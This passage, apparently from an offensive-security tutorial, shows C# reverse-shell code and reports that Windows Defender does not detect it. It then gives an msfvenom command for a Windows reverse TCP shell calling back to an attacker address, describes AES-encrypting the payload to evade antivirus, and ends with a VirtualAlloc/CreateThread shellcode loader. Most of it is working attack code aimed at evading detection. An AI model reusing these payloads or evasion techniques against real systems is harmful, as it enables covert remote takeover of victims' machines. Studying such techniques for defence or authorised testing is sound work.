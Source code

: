 ```csharp
            p.StartInfo.CreateNoWindow = true;
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.StartInfo.RedirectStandardInput = true;
            p.StartInfo.RedirectStandardError = true;
            p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
            p.Start();
            p.BeginOutputReadLine();
            while(true) {
              strInput.Append(rdr.ReadLine());
              p.StandardInput.WriteLine(strInput);
              strInput.Remove(0, strInput.Length);
            }
          }
        }
      }
    }
    private static void CmdOutputDataHandler(object sendingProcess,
                                             DataReceivedEventArgs outLine) {
      StringBuilder strOutput = new StringBuilder();
      if (!String.IsNullOrEmpty(outLine.Data)) {
        try {
            strOutput.Append(outLine.Data);
            streamWriter.WriteLine(strOutput);
            streamWriter.Flush();
        } catch (Exception err) { }
      }
    }
  }
}
```

When run against VirusTotal, it is detected as malicious by only 10 of 60 engines, importantly, Windows Defender being one that doesn't pick it up.

Other techniques such as encrypting payloads and decrypting before running also may evade a specific AV but they are getting better at detecting these techniques as well. To do this, we can use msfvenom to generate a payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.114.2 LPORT=4445 -f csharp -o payload.txt
```

To encrypt I have used an example that is on GitHub \(https://github.com/cribdragg3r/Simple-Loader\). This uses AES to encrypt the byte stream read from the payload.txt file and then generate Base64 output. This output then can be copy pasted into the program and when run without arguments, it will decrypt and copy the output into memory created using a VirtualAlloc call. This memory is then used as an argument to CreateThread which executes it:

```c
public static bool nonsense(byte[] shellcode) {
  try {
       UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                                      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                                      Marshal.Copy(shellcode, 0, 
                                      (IntPtr)(funcAddr), shellcode.Length);
       IntPtr hThread = IntPtr.Zero;
       UInt32 threadId = 0;
       IntPtr pinfo = IntPtr.Zero;
       hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
       WaitForSingleObject(hThread, 0xFFFFFFFF);
       return true;
  } catch (Exception e) {
    Console.Error.WriteLine("exception: " + e.Message);
    return false;
  }
```
